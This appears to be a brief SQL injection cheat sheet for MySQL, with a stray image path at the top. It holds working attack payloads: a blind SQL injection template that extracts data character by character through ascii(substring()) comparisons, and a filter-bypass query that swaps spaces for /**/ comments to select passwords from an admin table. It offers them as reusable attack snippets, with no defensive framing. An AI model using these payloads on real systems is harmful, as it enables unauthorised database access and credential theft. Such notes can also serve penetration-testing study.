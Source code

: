 ## MySQL
## Enumerate DB
```sql
# Describe table
DESCRIBE accounts
```

## Blind SQLi
```sql
# %s is sub query to extract account, %d is charchter index in string
# [CHAR] is the guessed value
test'/**/or/**/(ascii(substring((%s),%d,1)))=[CHAR]/**/or/**/1='
```

## Filter Bypass
### Spaces
```sql
select/**/password/**/from/**/AT_admins
```